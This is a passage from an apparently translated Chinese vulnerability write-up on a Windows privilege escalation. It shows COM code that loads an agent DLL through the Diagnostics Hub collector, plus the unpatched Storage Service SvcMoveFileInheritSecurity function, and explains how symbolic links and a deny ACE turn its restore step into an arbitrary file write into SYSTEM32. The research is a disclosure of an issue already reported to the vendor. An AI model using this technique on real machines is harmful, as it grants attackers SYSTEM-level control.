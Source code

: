 ```
IStandardCollectorService* service;
CoCreateInstance(CLSID_CollectorService, nullptr, CLSCTX_LOCAL_SERVER, IID_PPV_ARGS(&amp;service));

SessionConfiguration config = `{``}`;
config.version = 1;
config.monitor_pid = ::GetCurrentProcessId();
CoCreateGuid(&amp;config.guid);
config.path = ::SysAllocString(L"C:Dummy");
ICollectionSession* session;
service-&gt;CreateSession(&amp;config, nullptr, &amp;session);

GUID agent_guid;
CoCreateGuid(&amp;agent_guid);
session-&gt;AddAgent(L"dummy.dll", agent_guid);
```

现在我们只需要实现任意文件写入目标，将任意DLL放入`SYSTEM32`目录中，得到加载机会，提升权限。为了完成这个任务，我决定使用我在`Storage Service`的`SvcMoveFileInheritSecurity` RPC方法中找到的一个漏洞。这个函数之所以引起我的注意，原因是[Clément Rouault](https://twitter.com/hakril)和[Thomas Imbert](https://twitter.com/masthoon)在[PACSEC 2017](https://pacsec.jp/psj17/PSJ2017_Rouault_Imbert_alpc_rpc_pacsec.pdf)上曾发现并演示过的一个漏洞（ALPC漏洞），漏洞利用过程中用到了这个函数。虽然这种方法的确是利用该漏洞的一条途径，但我发现其实这里潜伏着两个漏洞（至少包含普通用户权限提升漏洞）。未经修补前的`SvcMoveFileInheritSecurity`的代码如下所示：

```
void SvcMoveFileInheritSecurity(LPCWSTR lpExistingFileName, 
                               LPCWSTR lpNewFileName, 
                               DWORD dwFlags) `{`
 PACL pAcl;
 if (!RpcImpersonateClient()) `{`
   // Move file while impersonating.
   if (MoveFileEx(lpExistingFileName, lpNewFileName, dwFlags)) `{`
     RpcRevertToSelf();
     // Copy inherited DACL while not.
     InitializeAcl(&amp;pAcl, 8, ACL_REVISION);
     DWORD status = SetNamedSecurityInfo(lpNewFileName, SE_FILE_OBJECT, 
         UNPROTECTED_DACL_SECURITY_INFORMATION | DACL_SECURITY_INFORMATION,
         nullptr, nullptr, &amp;pAcl, nullptr);
       if (status != ERROR_SUCCESS)
         MoveFileEx(lpNewFileName, lpExistingFileName, dwFlags);
   `}`
   else `{`
     // Copy file instead...
     RpcRevertToSelf();
   `}`
 `}`
`}`
```

这个方法的功能应该是移动文件到一个新的位置，然后将继承的所有ACE（Access Control Entry）应用于新目录中的DACL（Discretionary Access Control List）。这对移动处于同一卷上的文件来说是有必要的，这样老的文件名链接被取消，新的文件被链接到新的位置。然而，新文件仍然将保留从原位置那分配的安全属性。继承的ACE只有在目录中创建新文件时才会应用，或者就像这种情况一样，调用`SetNamedSecurityInfo`之类的函数来显式应用ACE。

为了确保这种方法不会让以服务用户身份（这里为Local System）运行的用户移动任意文件，需要模拟一个RPC调用者（caller）。问题就在于此，当第一次调用`MoveFileEx`时，代码会终止模拟，恢复到自己的安全标识，然后调用`SetNamedSecurityInfo`。如果调用失败，代码则会再次调用`MoveFileEx`，尝试恢复原来的文件移动操作。这里是第一个漏洞，有可能原来文件名的所处的位置现在指向了别的地方（比如通过滥用符号链接来实现这种效果）。我们很容易就能让`SetNamedSecurityInfo`调用失败，只需要在文件的ACE中，为WRITE_DAC添加针对Local System的一个Deny ACL，这样将返回一个错误代码，导致恢复操作失败，因此我们就能拥有任意文件创建能力。这个问题已经之前已经给微软提交过（issue [1427](https://bugs.chromium.org/p/project-zero/issues/detail?id=1427)）。
